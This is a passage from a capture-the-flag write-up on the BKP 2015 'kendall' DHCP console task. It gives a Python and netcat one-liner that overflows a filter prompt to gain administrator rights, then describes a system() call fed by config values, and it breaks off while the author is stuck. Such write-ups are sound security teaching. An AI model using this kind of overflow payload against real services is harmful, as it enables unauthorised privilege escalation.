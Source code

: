 Nice! It is _filter leases_ stage of _dhcp lease menu_ we saw above. Well, exploit for rights escalation is easy and small:

doris$ python -c "open('pl', 'wb').write('d\\n' + 'f\\n' + 'A' \* 128 + '\\n')"
doris$ cat pl - | nc 52.0.164.37 8888
#####################################################
# DHCP Management Console                           #
# Auditing Interface                                #
#####################################################

 h  show this help
 a  authenticate
 c  config menu
 d  dhcp lease menu
 e  exit

\[m\]# \[d\]# Enter filter condition: \[d\]$

BOOM! We became the administrator. Sadly, it does not give us any flag. Task worths 300 points, by the way, so it should not be so easy. As administrator now we have another possibilities in context of service. Now we are able to:

not only list but also change DHCP configuration:

\[c\]$ l
 DHCP Configuration: 
	Start IP:   192.168.000.100
	End IP:     192.168.000.200
	Netmask:    255.255.255.000
	Nameserver: 8.8.8.8
\[c\]$ s
Current Value: 192.168.000.100
New Value: asd
Your input asd cointains invalid characters. Only digits and dots allowed!

and now we can execute _renew leases_ action:

![](/sites/default/files/writeups/images/bkp_kenall_renew_leases_system_call.PNG)

OMG! It is pure _system()_ call with string which is coltrolled by us (arguments for sprintf are IP addresses of DHCP config).

Sadly again, but it is not so easy. It is BKP CTF's task for 300 points, remember?

Function for processing DHCP settings update called for each IP address we input:

![](/sites/default/files/writeups/images/bkp2015_kendall_read_ip_and_change.PNG)

it has some small bugs, but anyway we can not provide any useful payload for _system()_ call - only digits and dots are really allowed.

Further investigation of the binary did not give any other exploitable vulnerabilities. We were really stucked, because it is _pwn_ task and usually we expect some serious binary exploitation, even hardcore exploitation because of 300 points.
